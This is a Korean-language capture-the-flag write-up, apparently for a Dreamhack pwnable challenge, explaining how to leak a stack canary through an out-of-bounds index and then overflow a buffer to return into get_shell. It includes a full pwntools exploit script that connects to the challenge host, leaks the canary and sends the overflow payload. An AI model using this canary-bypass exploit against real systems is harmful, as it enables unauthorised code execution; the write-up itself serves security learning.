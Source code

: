 Canary 값은 4byte이기에 Box의 위치부터 읽는 것을 총 128의 idx부터 4byte 읽어오면 된다. 

읽어온 값의 Canary를 'E'로 **Name(64byte) + Canary(4byte) + Dummy(4byte) + SFP(4byte) + Get_shell(4byte, 0x80486b9)**하면 해당 문제를 풀릴 것이다.

### pwntool

```python
from pwn import *

p = remote('host3.dreamhack.games', 18201)

get_shell = 0x80486b9
canary = b''
payload = b''

for i in range(131, 127, -1):
    p.sendafter('> ', 'P') # read() (read after send)
    p.sendlineafter(' : ', bytes(str(i), 'utf-8')) # scanf() (read after send)
    p.recvuntil(' : ')
    canary += p.recv(2)

canary = int(canary, 16)
print('canary : 0x%08x'%canary)

payload += b'A' * 64 # name
payload += p32(canary)
payload += b'B' * 4  # dummy
payload += b'S' * 4  # SFP
payload += p32(get_shell)

p.sendafter('> ', 'E')
p.sendlineafter(' : ', str(len(payload)))
p.sendafter(' : ', payload)

p.interactive()
```

Canary가 stack에서 리틀 엔디안이므로, Canary의 값을 idx 127부터 읽는 것이 아닌 131부터 하나씩 줄어들면서 읽는 것이다. 그리고 값을 제대로 넘겨주기 위해 **p32()**함수를 이용했다.

> ex ) p32(0x12345678) => \x78\x56\x34\x12

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/187063310-e0b41d1d-c82a-42e0-a441-798cbdb972bb.jpg" width = 320>
</p>